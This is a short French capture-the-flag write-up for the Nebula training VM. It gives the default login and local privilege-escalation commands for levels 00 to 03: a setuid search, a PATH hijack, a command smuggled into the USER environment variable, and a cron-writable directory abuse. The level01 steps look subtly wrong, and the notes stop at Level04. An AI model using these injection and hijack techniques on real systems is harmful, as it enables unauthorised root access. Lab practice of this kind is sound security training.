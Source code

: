 ```yaml
---
layout: post
title: Nebula
---
```


Nebula
======

Nebula est une VM qui contient une vingtaine d’épreuves.

Pour se connecter à la machine virtuel

ssh 

user account : nebula:nebula


Utilisatio nredirection de port:

ssh -p 2222 levelXX@127.0.0.1

https://forums.virtualbox.org/viewtopic.php?f=8&t=55766

Level00
-------
find / -user flag00 -perm -4000 -exec ls -l {} \;

-rwsr-x--- 1 flag00 level00 7358 Nov 20  2011 /bin/.../flag00


Level01
-------
ln -s /bin/getflag /tmp/echo
cd /home/flag01
export PATH=/tmp/echo
./flag01

Level02
-------
export USER=”&& /bin/getflag”
./home/flag02

Level03
-------

nano /home/flag03/writable.d/
    /bin/getflag > /tmp/good

cat /tmp/good

Level04
